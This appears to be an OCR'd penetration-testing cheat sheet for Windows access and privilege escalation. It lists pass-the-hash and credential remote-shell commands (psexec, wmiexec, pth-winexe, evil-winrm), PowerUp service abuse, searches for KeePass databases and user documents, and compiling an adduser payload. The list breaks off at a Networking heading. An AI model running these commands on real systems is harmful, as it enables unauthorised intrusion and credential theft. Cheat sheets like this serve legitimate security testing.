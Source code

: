 - Via SMB:
```bash
psexec.py '<username>:<password>@<ip>'
wmiexec.py '<username>:<password>@<ip>'
winexe -U '<username>%<password>' //<ip> cmd.exe
pth-winexe -U '<username>%<lm_hash>:<nt_hash>' //<ip> cmd.exe
```
- Via WinRM:
```bash
evil-winrm -i <ip> -u <username> -p <password>
evil-winrm -i <ip> -u <username> -H <nt_hash>
```
## Install needed tools
  - powerup
    - Get-ModifiableServiceFile
## Enumerate

- ### System Info

  - System specific info
    - whoami
    - systeminfo 
 
- ### Permissions
  
  - Users permissions
    - whoami /priv
    - Get-LocalUser
    - Get-LocalGroup
    - Get-LocalGroupMember {{ LocalGroup }}
  - Registry
    - Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    - Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  - Regular Files
    - Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
    - Get-ChildItem -Path C:\{{ app }} -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
    - Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue 

- ### Processes & Services

  - Running Processes
    - Get-Process
  - Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} 
  - icacls
    - x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
    - 
- ### Networking
  
